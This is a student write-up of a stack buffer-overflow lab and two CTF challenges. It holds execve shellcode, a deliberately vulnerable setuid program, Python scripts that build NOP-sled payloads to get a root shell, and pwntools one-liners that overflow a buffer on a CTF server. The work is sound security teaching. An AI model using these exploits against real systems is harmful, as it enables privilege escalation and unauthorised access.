


## Setup

To simplify our attacks, we need to turn off some counter measures:
* Address space randomization 
``` 
$ sudo sysctl -w kernel.randomize_va_space=0
```
We also need to link /bin/sh to /bin/zsh, as the shell by default is linked to /bin/dash as it drops priviliges instantly when it detects that is being run by a set-UID program.

```
$ sudo ln -sf /bin/zsh /bin/sh
```
We also need to remove the Stack Guard and the non-executable stack protection, however this can be done in the compilation.

## TASK 1 - Getting Familiar with Shellcode

A shellcode is a piece of code that launches a shell.

We could write it in C, however compiling the code and using the binary as our shellcode doesn't work, requiring us to do so in assmebly.

Writing shell code in assembly consists in calling execve() to open a shell.
Using the ebx, ecx and edx registers to pass the arguments to it, the execve() system call happens when we set the register al to 0x0b and execute int 0x80.

32-bit shellcode
```asm
; Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp ; ebx --> "/bin//sh": execve()’s 1st argument
; Construct the argument array argv[]
push eax ; argv[1] = 0
push ebx ; argv[0] --> "/bin//sh"
mov ecx, esp ; ecx --> argv[]: execve()’s 2nd argument
; For environment variable
xor edx, edx ; edx = 0: execve()’s 3rd argument
; Invoke execve()
xor eax, eax ;
mov al, 0x0b ; execve()’s system call number
int 0x80

```

The 64-bit version is simillar, apart from the registers used to pass the arguments to the execve() call.

## TASK 2

We're given a file with a buffer overflow vulnerability as it is using strcpy() to copy a string into a smaller buffer buffer.
since the strcpy does not check the boundaries of the buffer it is writing the string to, it will overflow and start writing data into the stack.

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
int bof(char *str)
{
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}
int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}

```


When compiling the vulnerable program we must turn off the StackGuard and the non-executable Stack protections,
before changing its ownership to root and setting uid in that order.

```
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack ➀
$ sudo chmod 4755 stack ➁
```

## TASK 3 - Launching Attack on 32-bit Program (Level 1)

To exploit a buffer-overflow vulnerability the most important thing to know is the distance between the buffer's starting position and the place where the return address is stored. 

After creating the file from which the vulnerable function reads the string that is going to be copied into the buffer (badfile).
We now use gdb to debug the stack-L1-dbg in order to get the base pointer (ebp) when it is poiting to the stack frame of bof().

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca8c
0xffffca8c

```



### Launching the attack

We need to generate the contents of badfile before running the stack program:
* fill the buffer with NOP (0x80)
* shellcode at the end of the 517 bytes buffer
* offset = number of bytes between the address of buffer and the return address = $ebp - & buffer + 4 = 108 + 4 = 112
* return address value = some address between the return address and the start of the shellcode (eg. &buffer +350)

For that we'll use a python script.

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcaf8  + 300         # Change this number 
offset = 112             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```
After running this exploit and putting its output into badfile we managed to open a shell with root permission


## TASK 4

For this attack we don't know the buffer size and therefore we do not know where the return address is. This complicates things since we do not know in which part of our payload we should inject the address of our shellcode.

To overcome this difficulty we need to put the return address value in every other 4 bytes between the byte 100 and 200 since we know the return address will be in one of them.

Concluding we need to:
* fill the rest of the buffer with NOP's
* put the shellcode at the end of the buffer
* offset = range(100, 200, 4)
* return address value = some address between the return address and the start of the shellcode (eg. &buffer + 350)

We made this script
```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcaf8  + 300         # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(100, 200, 4):
   content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```
We got the root shell


## CTF BUFFER OVERFLOW

### Desafio 1

For this challenge we were given a C program in which there were 2 variables
    -> buffer[32]
    -> meme_file[8]

the program would then read 40 bytes from user input before trying to open the file with the name that is written in meme_file.

Since the user can write up to 40 bytes which are then written to a buffer with only 32, a buffer overflow can occur.

Therefore by sending an input with 32 random characters with 'flag.txt' at the end we can override the variable meme_file and get the file flag.txt to be opened and printed into the terminal

### Exploit

    r = remote('ctf-fsi.fe.up.pt', 4003)
    r.recvuntil(b":")
    r.sendline(b"A" * 32 + b'flag.txt')




### Desafio 2

This time the same thing happened. However there was added an additional array which must contain a specific value for the file to be read.
Since we're using little endian, the hexadecimal value had to be passed inverted, or by using the p32() pwn function.

### Exploit

    r = remote('ctf-fsi.fe.up.pt', 4000)
    r.recvuntil(b":")
    r.sendline(b"A" * 32 + p32(0xfefc2324) + b'flag.txt')


